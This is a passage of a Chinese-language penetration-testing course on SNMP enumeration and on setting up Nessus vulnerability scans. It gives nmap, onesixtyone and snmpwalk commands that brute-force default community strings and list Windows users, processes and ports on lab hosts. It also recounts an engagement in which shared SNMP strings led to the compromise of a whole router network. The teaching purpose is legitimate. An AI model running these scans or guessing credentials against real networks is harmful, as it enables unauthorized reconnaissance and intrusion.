SNMP 基于 UDP 构建，这是一种简单且无状态协议，因此容易遭受 IP 欺骗和重放攻击。此外，常用的 SNMP 协议版本 1、2 和 2c 不提供流量加密，这意味着 SNMP 信息和凭据在局域网内很容易被截获。传统的 SNMP 协议还具有弱认证机制，并且通常被配置为使用默认的 `public` 和 `private` 团体字符串。

考虑到上述所有情况都适用于一种按定义旨在“管理网络”的协议，基于这些原因，SNMP 也是我们要重点讨论的枚举协议之一。

几年前，我们对一家为众多企业客户、银行和其他类似组织提供网络集成服务的公司进行了内部渗透测试。在对该系统进行了几个小时的摸排后，我们发现了一个包含数千台连接的思科路由器的大型 B 类网络。有人向我们解释，这些路由器中的每一个都是通往其中一个客户的网关，用于管理和配置目的。

快速扫描默认的 Cisco / Cisco Telnet 凭据，发现了一台低端的 Cisco ADSL 路由器。进一步挖掘揭示了路由器配置文件中的一组复杂的 SNMP 公共和私有团体字符串。事实证明，这些相同的公共和私有团体字符串被用于整个 B 类地址范围乃至更多范围内的每一个网络设备——真是简单的管理，对吧？

企业级路由硬件的一个有趣特点是，这些设备通常支持通过私有 SNMP 团体字符串访问来读取和写入配置文件。既然我们已经知道了所有网关路由器的私有团体字符串，通过编写一个简单的脚本，使用 SNMP 和 TFTP 协议复制该网络上的所有路由器配置，我们不仅攻破了整个网络集成公司的基础设施，还攻破了其客户的基础设施。

#### 7.6.1 SNMP MIB 树

SNMP 管理信息库 (MIB) 是一个通常包含与网络管理相关信息的数据库。该数据库组织成一棵树，其中分支代表不同的组织或网络功能。树的叶子（最终端点）对应于特定变量的值，随后可以由外部用户访问和探测。IBM 知识中心[^217] 包含了大量关于 MIB 树的信息。

例如，以下 MIB 值对应于特定的 Microsoft Windows SNMP 参数，并且包含比基于网络的信息更多的内容：

| MIB OID | 描述 |
| :--- | :--- |
| 1.3.6.1.2.1.25.1.6.0 | 系统进程 |
| 1.3.6.1.2.1.25.4.2.1.2 | 正在运行的程序 |
| 1.3.6.1.2.1.25.4.2.1.4 | 进程路径 |
| 1.3.6.1.2.1.25.2.3.1.4 | 存储单元 |
| 1.3.6.1.2.1.25.6.3.1.2 | 软件名称 |
| 1.3.6.1.4.1.77.1.2.25 | 用户账户 |
| 1.3.6.1.2.1.6.13.1.3 | TCP 本地端口 |

表 6 - Windows SNMP MIB 值

[^217]: (IBM, 2019). https://www.ibm.com/support/knowledgecenter/ssw_aix_71/commproggramming/mib.html

#### 7.6.2 扫描 SNMP

要扫描开放的 SNMP 端口，我们可以运行如下示例中的 `nmap`。`-sU` 选项用于执行 UDP 扫描，而 `--open` 选项用于限制输出，仅显示开放的端口：

```bash
kali@kali:~$ sudo nmap -sU --open -p 161 10.11.1.1-254 -oG open-snmp.txt

Starting Nmap 7.70 ( https://nmap.org ) at 2019-05-01 06:26 MDT

Nmap scan report for 10.11.1.7

Host is up (0.080s latency).

PORT STATE SERVICE

161/udp open|filtered snmp

MAC Address: 00:50:56:89:1A:CD (VMware)

Nmap scan report for 10.11.1.10

Host is up (0.080s latency).

PORT STATE SERVICE

161/udp open|filtered snmp

MAC Address: 00:50:56:93:4E:DC (VMware)

...
```

列表 266 - 使用 nmap 执行 SNMP 扫描

或者，我们可以使用诸如 onesixtyone 这样的工具[^218]，它将尝试对 IP 地址列表进行暴力破解攻击。首先，我们必须构建包含团体字符串和我们要扫描的 IP 地址的文本文件：

```bash
kali@kali:~$ echo public > community
kali@kali:~$ echo private >> community
kali@kali:~$ echo manager >> community
kali@kali:~$ for ip in $(seq 1 254); do echo 10.11.1.$ip; done > ips
kali@kali:~$ onesixtyone -c community -i ips

Scanning 254 hosts, 3 communities

10.11.1.14 [public] Hardware: x86 Family 6 Model 12 Stepping 2 AT/AT COMPATIBLE - Software: Windows 2000 Version 5.1 (Build 2600 Uniprocessor Free)

10.11.1.13 [public] Hardware: x86 Family 6 Model 12 Stepping 2 AT/AT COMPATIBLE - Software: Windows 2000 Version 5.1 (Build 2600 Uniprocessor Free)

10.11.1.22 [public] Linux barry 2.4.18-3 #1 Thu Apr 18 07:37:53 EDT 2002 i686

...
```

列表 267 - 使用 onesixtyone 暴力破解团体字符串

[^218]: (Alexander Sotirov, 2008), http://www.phred0m.org/software/onesixtyone/

一旦我们找到 SNMP 服务，就可以开始查询其中可能有趣的特定 MIB 数据。

#### 7.6.3 Windows SNMP 枚举示例

如果我们至少知道 SNMP 只读团体字符串（在大多数情况下是 "public"），我们可以使用 **snmpwalk** 等工具来探测和查询 SNMP 值。

#### 7.6.3.1 枚举整个 MIB 树

使用列表 268 中提供的一些 MIB 值，我们可以尝试枚举其对应的值。请在实验室中针对一台已知机器尝试以下示例，该机器暴露了 Windows SNMP 端口，团体字符串为 "public"。此命令使用 `-c` 选项指定团体字符串，使用 `-v` 指定 SNMP 版本号，并使用 `-t 10` 将超时时间增加到 10 秒，从而枚举整个 MIB 树：

```text
kali@kali:~$ snmpwalk -c public -v1 -t 10 10.11.1.14

iso.3.6.1.2.1.1.1.0 = STRING: "Hardware: X86 Family 6 Model 12 Stepping 2 AT/AT COMPATIBLE - Software: Windows 2000 Version 5.1 (Build 2600 Uniprocessor Free)"

iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.311.1.1.3.1.1

iso.3.6.1.2.1.1.3.0 = Timeticks: (2005539644) 232 days, 2:56:36.44

iso.3.6.1.2.1.1.4.0 = ""

...
```

列表 269 - 使用 snmpwalk 枚举整个 MIB 树

#### 7.6.3.2 枚举 Windows 用户

此示例枚举 Windows 用户：

```text
kali@kali:~$ snmpwalk -c public -v1 10.11.1.14 1.3.6.1.4.1.77.1.2.25

iso.3.6.1.4.1.77.1.2.25.1.1.3.98.98 = STRING: "bob"
```


`iso.3.6.1.4.1.77.1.2.25.1.1.5.71.117.101.115.116 = STRING: "Guest"`

`iso.3.6.1.4.1.77.1.2.25.1.1.8.73.85.83.82.95.66.79.66 = STRING: "IUSR_BOB"`

...

列表 270 - 使用 `snmpwalk` 枚举 Windows 用户

### 7.6.3.3 枚举正在运行的 Windows 进程

此示例枚举正在运行的 Windows 进程：

```
kali@kali:~$ snmpwalk -c public -v1 10.11.1.73 1.3.6.1.2.1.25.4.2.1.2

iso.3.6.1.2.1.25.4.2.1.2.1 = STRING: "System Idle Process"

iso.3.6.1.2.1.25.4.2.1.2.4 = STRING: "System"

iso.3.6.1.2.1.25.4.2.1.2.224 = STRING: "smss.exe"

iso.3.6.1.2.1.25.4.2.1.2.324 = STRING: "csrss.exe"

iso.3.6.1.2.1.25.4.2.1.2.364 = STRING: "wininit.exe"

iso.3.6.1.2.1.25.4.2.1.2.372 = STRING: "csrss.exe"

iso.3.6.1.2.1.25.4.2.1.2.420 = STRING: "winlogon.exe"

iso.3.6.1.2.1.25.4.2.1.2.448 = STRING: "services.exe"

iso.3.6.1.2.1.25.4.2.1.2.480 = STRING: "lsass.exe"

iso.3.6.1.2.1.25.4.2.1.2.488 = STRING: "Ism.exe"

...
```

列表 271 - 使用 `snmpwalk` 枚举 Windows 进程

### 7.6.3.4 枚举开放的 TCP 端口

此示例枚举开放的 TCP 端口：

```
kali@kali:~$ snmpwalk -c public -v1 10.11.1.14 1.3.6.1.2.1.6.13.1.3

iso.3.6.1.2.1.6.13.1.3.0.0.0.21.0.0.0.18646 = INTEGER: 21

iso.3.6.1.2.1.6.13.1.3.0.0.0.80.0.0.0.45310 = INTEGER: 80

iso.3.6.1.2.1.6.13.1.3.0.0.0.135.0.0.0.24806 = INTEGER: 135

iso.3.6.1.2.1.6.13.1.3.0.0.0.443.0.0.0.45070 = INTEGER: 443

...
```

列表 272 - 使用 `snmpwalk` 枚举开放的 TCP 端口

### 7.6.3.5 枚举已安装的软件

此示例枚举已安装的软件：

```
kali@kali:~$ snmpwalk -c public -v1 10.11.1.50 1.3.6.1.2.1.25.6.3.1.2

iso.3.6.1.2.1.25.6.3.1.2.1 = STRING: "LiveUpdate 3.3 (Symantec Corporation)"

iso.3.6.1.2.1.25.6.3.1.2.2 = STRING: "WampServer 2.5"

iso.3.6.1.2.1.25.6.3.1.2.3 = STRING: "VMware Tools"

iso.3.6.1.2.1.25.6.3.1.2.4 = STRING: "Microsoft Visual C++ 2008 Redistributable - x86 9.0.30729.4148"

iso.3.6.1.2.1.25.6.3.1.2.5 = STRING: "Microsoft Visual C++ 2012 Redistributable (x86) - 11.0.61030"

...
```


列表 273 - 使用 `snmpwalk` 枚举已安装的软件

### 7.6.3.6 练习

- 使用 `onesixtyone` 扫描目标网络以识别任何 SNMP 服务器。
- 使用 `snmpwalk` 和 `snmp-check` 收集关于发现的目标的信息。

## 7.7 总结

对于任何给定的情况，从未有一个“最佳”工具，尤其是因为 Kali Linux 中的许多工具在功能上存在重叠。最好熟悉尽可能多的工具，了解它们的细微差别，并在可能的情况下衡量结果，以了解幕后发生的情况。在某些情况下，“最佳”工具是由最有经验的从业人员所持的工具。


# 8. 漏洞扫描

漏洞发现是任何安全评估中不可或缺的一部分。虽然我们在安全审计期间更倾向于利用我们的知识和经验进行手动、专业化的任务，但自动漏洞扫描器在适当的情境下使用仍然具有无可估量的价值。在本模块中，我们将概述自动漏洞扫描，讨论其各种注意事项，并重点介绍两者不可或缺的工具：`Nessus` 和 `Nmap`。

## 8.1 漏洞扫描概述与注意事项

在直接深入研究我们的工具之前，我们必须花点时间讨论漏洞扫描的过程，概述关于自动扫描和手动扫描的基本注意事项，并讨论关键的细微差别和最佳实践。

### 8.1.1 漏洞扫描器的工作原理

漏洞扫描器的实现方式各不相同，但通常遵循标准的工作流程。大多数自动扫描器将：

- 检测目标是否正在运行。
- 根据配置执行完整或部分端口扫描。
- 使用常见的指纹识别技术识别操作系统。
- 尝试使用常见技术识别运行的服务，例如获取横幅（banner grabbing）、服务行为识别或文件发现。
- 执行*签名匹配*过程以发现漏洞。

请注意，这个过程基本上反映了我​​们在手动评估期间所做的内容。作为渗透测试人员，我们可能在心理上执行某种形式的签名匹配过程。例如，我们可能会记得我们在现场看到的某个特定版本的应用程序存在远程利用漏洞。然而，自动扫描器是在独特的漏洞签名[219]的协助下执行此步骤的。

作为此签名匹配过程的一部分，许多扫描器使用*获取横幅*（banner grabbing），这是一种简单的技术，其中在初始交互过程中由应用程序生成的文本字符串被获取并分析。某些应用程序生成非常具体的横幅，例如 OpenSSH，它可能返回“SSH-2.0-OpenSSH_7.9p1 Debian-10”，允许我们精确定位应用程序版本，而其他应用程序，如 Apache Tomcat 4.1.x 到 8.0.x 版本，则返回通用的 HTTP 头“Apache-Coyote/1.1”。当然，更具体的头文件和横幅使扫描器更容易确定应用程序版本，从而更准确地检测潜在漏洞。

*一些漏洞扫描器可以配置为在检测到漏洞时利用该漏洞。这可以降低假阳性的可能性，但也增加了使服务崩溃的风险。请务必仔细检查扫描器选项。*

大多数自动扫描器在签名匹配过程中检查各种其他目标信息。然而，即使强匹配签名也不能保证存在漏洞。这意味着自动扫描器可能会产生相当多的*假阳性*，相反，由于签名不匹配而忽略漏洞的*假阴性*也会发生。假阳性和假阴性也可能由于*回溯移植*（backporting）而发生，在此过程中包维护者将软件安全补丁“回滚”到较旧的版本。回溯移植可能导致扫描器将软件标记为易受攻击的版本，而实际上漏洞已经修复。

因此，我们应仔细检查并尽可能手动审查漏洞扫描结果。鉴于不断变化且复杂的技术环境，漏洞可能会出现在意想不到的地方。尽管市面上一些最好的商业扫描器性能优异，但没有一个是完美的。然而，通过在每次参与任务之前更新签名数据库，我们确保我们的扫描器有最好的机会发现最新的漏洞。

这种签名匹配过程非常高效，比完全手动审查快得多，使自动漏洞扫描器成为评估期间首次扫描的优秀选择，也是手动审查的完美补充。

*花时间了解我们计划在现场使用的任何自动工具的内在机制是一项非常有价值的练习。这不仅有助于我们正确配置工具和理解结果，还将帮助我们理解必须通过手动应用专业知识来克服的局限性。*

### 8.1.2 手动扫描与自动扫描

在评估期间，我们应该结合手动和自动扫描技术，但适当的平衡随着经验的积累变得更加明显。

让我们讨论手动扫描和自动扫描的主要优缺点，以帮助在评估期间取得适当的平衡。

对远程目标网络的手动审查不可避免地非常消耗资源且耗时。由于这种方法严重依赖人为交互和重复任务，因此也容易出错，可能会遗漏漏洞。然而，特别是*红队*（red-teaming），为了尽可能长时间保持不被检测，需要外科般的精确度和最小的网络足迹。在这些情况下使用自动扫描器可能不是最佳方法。此外，手动分析可以发现复杂的和逻辑上的漏洞，而这些漏洞使用任何类型的自动扫描器都很难发现。

然而，自动漏洞扫描器在传统安全评估相关的时间限制下，处理大型参与任务时无可替代。无论是使用通用扫描器扫描整个目标网络，还是针对单个专用主机，我们都能在更短的时间内建立基线。这些基线允许我们验证易于检测的漏洞，或者至少帮助我们了解目标的总体安全态势。

虽然漏洞扫描价值连城，但它可能有缺点。扫描配置可能广泛且复杂，其默认设置可能会损害目标。例如，许多扫描器可以且将会尝试暴力破解弱密码。在参与任务期间，暴力破解技术应受到严格控制，因为它们可能导致账户锁定，从而给客户带来重大停机。在执行扫描之前，了解漏洞扫描器的工作原理及其功能至关重要。

请记住，在使用自动漏洞扫描器时，我们作为渗透测试人员的工作是提供超越任何工具输出的价值。

### 8.1.3 互联网扫描与内部扫描

漏洞扫描器可以轻松地扫描连接互联网的目标，也可以扫描连接本地网络的目标。然而，如果我们将这些目标视为等同的，我们的扫描结果可能不完整或不准确。我们在网络中与目标的位置关系可能会影响我们的速度阈值、访问权限、流量干扰的可能性以及目标可见性。

我们到目标网络连接的带宽不仅决定了扫描器的原始带宽，还决定了其他因素，如到单个主机的跳数。这意味着我们可以更快地对本地连接的主机进行更具侵入性和更全面的扫描。然而，我们必须始终注意我们的流量，意识到旧设备可能会受到重型扫描的不利影响。为了获得最佳结果，请考虑之前模块中端口扫描讨论中建立的指南。

> 为了获得更好的扫描结果，首先考虑限制扫描速度和超时值。一旦您对结果的质量感到满意，就可以开始逐步增加速度，直到取得良好的平衡。

我们在网络中的位置还会影响我们在与目标通信时的访问权限和流量干扰的可能性。例如，防火墙或入侵防御系统（IPS）可能会阻止我们访问主机或端口，并可能在生成痕迹的同时丢弃我们的流量

[PAGE 208]


[^219]: 
[^220]: (CGI Security, 2008), https://www.cgisecurity.com/questions/falsepositive.shtml
[^221]: (CGI Security, 2008), https://www.cgisecurity.com/questions/falsenegative.shtml
[^222]: (Red Hat, 2020), https://access.redhat.com/security/updates/backporting
[^223]: (Daniel Messier, 2020), https://danielmessier.com/study/red-blue-purple-teams/

安全警报。这些设备限制了我们的能力，并掩盖了其后方目标上的漏洞，这将负面影响我们向客户提供的最终产品。

最后，我们的网络定位会影响目标的可见性。例如，典型的漏洞扫描器通常会尝试通过 ping 扫描或 ARP 扫描来发现目标。[^224] 然而，连接到互联网的目标无法接收来自外部子网的 ARP 流量，并且可能会阻止 ICMP（ping）请求，[^225] 这意味着如果扫描器被配置为仅依赖这些发现选项，它可能会完全遗漏这些目标。

我们需要花时间彻底理解目标网络、我们将进行操作的准确网络位置，以及我们的网络定位所提供的目标访问权限。并且正如我们常说的，了解你的工具及其幕后工作原理非常重要。

## 8.1.4 身份验证扫描与未身份验证扫描

大多数扫描器都可以配置为执行身份验证扫描，在这种模式下，扫描器使用一组有效凭证登录到目标。在大多数情况下，身份验证扫描使用特权用户账户，以便对目标系统获得最佳的可见性。

要对 Linux 目标执行身份验证扫描，我们只需在 Linux 目标上启用 SSH 服务，并使用有效的用户凭证配置扫描器。大多数扫描器将利用此访问权限来审查软件包版本并验证配置，以尝试发现潜在漏洞。

Windows 身份验证通常要求 Windows 管理规范仪器化 (WMI) [^226]，以及具有远程管理权限的域账户或本地账户凭证。请注意，即使配置了 WMI，其他因素（如 UAC [^227] 和防火墙设置）也可能阻止身份验证。然而，一旦访问权限正确配置，大多数扫描器将分析系统配置、注册表设置以及应用程序和系统补丁级别。它们还会审查 **Program Files** 目录中的文件，以及 **Windows** 文件夹中所有的支持可执行文件和 DLL，以尝试检测可能存在漏洞的软件。

身份验证扫描会产生大量的额外信息，并以较长的扫描时间为代价产生更准确的结果。虽然身份验证扫描可以在渗透测试期间使用（例如使用发现的凭证），但它通常用于补丁管理过程中。

## 8.2 使用 Nessus 进行漏洞扫描

当我们超越理论开始查看工具时，我们将首先关注 **Nessus**，这是一个流行的漏洞扫描器，截至本文撰写时支持多达 130,000 个插件 [^228]（漏洞检查）。虽然最初是作为开源应用程序开发的，但在 2005 年源代码关闭了。[^229] 转变为闭源模式导致了开源项目的分支，以及 OpenVAS 的发布。[^230]

有许多商业和开源漏洞扫描器，它们各有优缺点。然而，Nessus 是一个能力相当强的行业标准，其免费的“Essentials”版本允许我们扫描多达 16 个 IP。它让我们在没有时间限制或其他约束的情况下，深入了解如何使用完整的商业版本。本节中讨论的总体概念通常也适用于几乎所有其他商业扫描器。

### 8.2.1 安装 Nessus

为了本模块的目的，请注意您需要在使用连接至 PWK 实验室的虚拟机上安装 Nessus，因为激活 Nessus 实例以及下载插件需要互联网连接。同样重要的是要提到，漏洞扫描器通常资源密集。它们中的许多建议的最低要求包括至少 2 个 CPU 核心以及 8GB 的 RAM。对于我们的示例，这些资源要求并非必要。

在开始安装之前，我们应该更新 Kali 的软件包列表并升级现有软件包到最新版本：

```bash


`kali@kali:~$ sudo apt update && sudo apt upgrade`

## 列表 274 - 更新软件包列表并升级软件包

虽然 Nessus 不可用于 Kali 软件仓库，但我们可以从 Tenable 网站手动下载适用于 Kali 的 64 位 `.deb` 文件：https://www.tenable.com/downloads/nessus。

我们可以通过点击下载页面上的“Checksum”链接（图 44）查看 SHA256 校验值，并使用 `sha256sum` 验证下载文件的校验和：



图 44：Nessus 下载和校验和

```bash
kali@kali:~/nessus$ sha256sum Nessus-X.X.X.deb

34199e8ff70bc1502b82495272cee2d313dc15ead1c0c1da6b851a32892d39d

Nessus-X.X.X.deb
```

列表 275 - 验证校验和

运行 `sha256sum` 后显示的值应与网站上显示的值匹配。请注意，此校验和取决于版本，可能与上图所示的不一致。

既然我们的校验和匹配，我们可以使用 `apt` 安装该软件包：

```bash
kali@kali:~/nessus$ sudo apt install ./Nessus-X.X.X.deb

...
Preparing to unpack .../kali/nessus/Nessus-X.X.X.deb ...
Unpacking nessus (X.X.X) ...
Setting up nessus (X.X.X) ...
Unpacking Nessus Scanner Core Components...
- You can start Nessus Scanner by typing /etc/init.d/nessusd start
- Then go to https://kali:8834/ to configure your scanner
Processing triggers for systemd (241-3) ...
```

列表 276 - Nessus 安装

安装完软件包后，我们可以启动 `nessusd` 服务：

```bash
kali@kali:~/nessus$ sudo /etc/init.d/nessusd start
Starting Nessus : .
```


### 列表 277 - 启动 Nessus

一旦 Nessus 正在运行，我们可以启动一个浏览器并导航到 `https://localhost:8834`。我们将看到一个证书错误，指示未知的证书颁发机构，但由于使用了自签名证书，这是预期的。



图 45：Nessus 显示证书错误

要接受自签名证书，点击*Advanced*（高级）和*Add Exception...*（添加例外...）



图 46：为无效证书添加例外

打开安全例外弹窗后，我们可以点击*Confirm Security Exception*（确认安全例外）以接受该证书：



图 47：确认安全例外

页面加载后，我们将被提示选择一个 Nessus 产品。对于我们的目的，我们将部署 Nessus Essentials。这是通过从列表中选择 Nessus Essentials 并点击 Continue（继续）来完成的。



图 48：选择 Nessus Essentials

接下来，我们将被提示请求 Nessus Essentials 的激活码。填写包含必要信息的表格并点击 Email（电子邮件）将把激活代码发送到我们的电子邮件地址。



收到电子邮件发送的激活代码后，我们可以将其输入 Nessus 并点击 Continue（继续）



现在 Nessus 已激活，我们将被提示创建一个本地 Nessus 用户账户：



最后，我们必须下载并编译所有插件。完成此过程可能需要相当长的时间。



#### 8.2.2 定义目标

一旦 Nessus 安装完毕，是时候设置我们的第一个扫描了。首先，我们只需点击 New Scan（新建扫描）按钮。

[^224]: (Tenable, 2019), https://docs.tenable.com/nessus/Content/DiscoverySettings.htm#HostDiscovery
[^225]: (Nmap, 2019), https://nmap.org/book/man-host-discovery.html
[^226]: (Microsoft, 2018), https://docs.microsoft.com/en-us/windows/desktop/wmisdk/about-wmi
[^227]: (Microsoft, 2018), https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/how-user-account-control-works
[^228]: (Tenable, 2020), https://www.tenable.com/products/nessus
[^229]: (Renai LeMay, 2005), https://www.cnet.com/news/nessus-security-tool-closes-its-source/
[^230]: (Greenbone Networks, 2019), http://www.openvas.org



*图 53：创建扫描*

Nessus 支持多种扫描类型，包括：

- **基础网络扫描（Basic Network Scan）**：一种通用扫描，包含各种检查项，适用于针对各种目标类型。
- **凭据补丁审计（Credential Patch Audit）**：一种经过身份验证的扫描，用于枚举缺失的补丁。
- **Web 应用程序测试（Web Application Tests）**：一种专门用于发现 Web 应用程序中已公开漏洞的扫描。
- **Spectre 和 Meltdown**：针对 Spectre[^231] 和 Meltdown[^232] 漏洞的定向扫描。

我们建议研究这些扫描类型，但在这个入门部分，我们将重点关注标准的基础网络扫描，可以通过点击*基础网络扫描*来启动。

[^231]: (Wikipedia, 2020), https://en.wikipedia.org/wiki/Spectre_(security_vulnerability)
[^232]: (Wikipedia, 2019), https://en.wikipedia.org/wiki/Meltdown_(security_vulnerability)

### 扫描模板



*图 54：选择基础网络扫描*

这将展示扫描配置设置界面，其中包含两个必需参数：扫描名称和目标列表。Nessus 支持将目标添加为 IP 地址、IP 范围，或逗号分隔的 FQDN 或 IP 列表。

在本例中，我们将扫描 PWK 实验室中的 Gamma 机器，其 IP 地址为 `10.11.1.73`。我们将在名称字段中输入“Gamma - Basic”，并在目标字段中输入该 IP 地址：



在此场景下，我们选择了基础网络扫描模板定义。像所有其他模板一样，它预配置了默认用户设置。但是，这些默认值可能并非完全符合我们的需求，我们必须考虑到我们的环境、时间约束以及将被扫描的目标。在配置基础网络扫描模板时，需要考虑的事项包括：

1. 我们的目标位于内部网络还是公开可访问？
2. 扫描器是否应尝试暴力破解用户凭据？
3. 扫描器是否应扫描所有 TCP 和 UDP 端口，还是仅扫描常见端口？
4. 扫描器应运行哪些检查，又应避免哪些检查？
5. 扫描器应运行身份验证扫描（Authenticated Scan）还是非身份验证扫描（Unauthenticated Scan）？

对于此扫描，我们希望针对*所有*端口运行一次初步的基本端口扫描。默认情况下，*基础网络扫描* 仅扫描常见端口。若要更改此设置，我们点击*设置*标签页左侧的*发现（Discovery）*链接。



*图 56：访问发现设置*

在*扫描类型*下拉框中，我们将值从*端口扫描（常见端口）*更改为*自定义*。


| 类别 | 选项 | 说明/选择 |
| :--- | :--- | :--- |
| **扫描类型** | 端口扫描（常见端口） | |
| | 端口扫描（所有端口） | |
| | **自定义** | |
| | 使用快速网络发现 | |
| **端口扫描器设置：** | 扫描常见端口 | |
| | 如果提供凭据则使用 nstat | |
| | 必要时使用 SYN 扫描器 | |
| **使用以下方式进行主机 Ping：** | TCP | |
| | ARP | |
| | ICMP（重试 2 次） |


这将添加额外*发现*配置。接下来，我们将点击*发现*和*端口扫描*以配置端口范围：


*图 58：选择新的端口扫描选项*

在端口扫描部分，我们将端口扫描范围设置为显示 "`0-65535`"，以便扫描所有端口：


*图 59：配置扫描器以扫描所有端口*

在此场景中，我们选择了一种扫描定义，它将扫描所有 TCP 端口但不扫描 UDP 端口。虽然这会加快扫描速度，但我们可能会错过目标上运行的关键服务。在渗透测试项目期间，在配置端口扫描选项时，我们必须权衡目标网络的稳定性、目标范围、项目持续时间以及许多其他因素。

在配置扫描定义期间，我们没有配置任何凭据，这意味着该扫描将以非身份验证方式运行。此外，我们接受了**基础网络扫描**下的默认值，这意味着将不会启用用户凭据的暴力破解。如果我们查看**基础网络扫描**下的其他选项，可以验证扫描将针对目标运行通用检查，而其他模板如**Spectre 和 Meltdown**则包含特定的漏洞检查。请记住，像这样配置的扫描在网络流量层面上将非常显眼，因为它扫描所有端口并搜索所有适用的漏洞。

现在，我们已经完全审查了所有配置选项，并（至少在高层面上）理解扫描器将执行的操作，我们可以继续运行我们的第一次扫描。

### 8.2.4 使用 Nessus 进行非身份验证扫描

当我们准备好运行这次首次非身份验证扫描时，我们点击保存旁边的箭头，然后点击启动：


*图 60：启动扫描*

最初，扫描状态将为*运行中*（图 61）。


*图 61：扫描状态进行中*

一旦扫描完成，状态将更改为*已完成*（图 62）。


*图 62：扫描状态进行中*

扫描时间将根据许多因素而变化，包括扫描配置和网络速度。

从“我的扫描”屏幕，我们可以点击扫描名称“Gamma - Basic”，以显示扫描期间发现的主机列表以及潜在漏洞的详细信息：


*图 63：查看扫描概览*

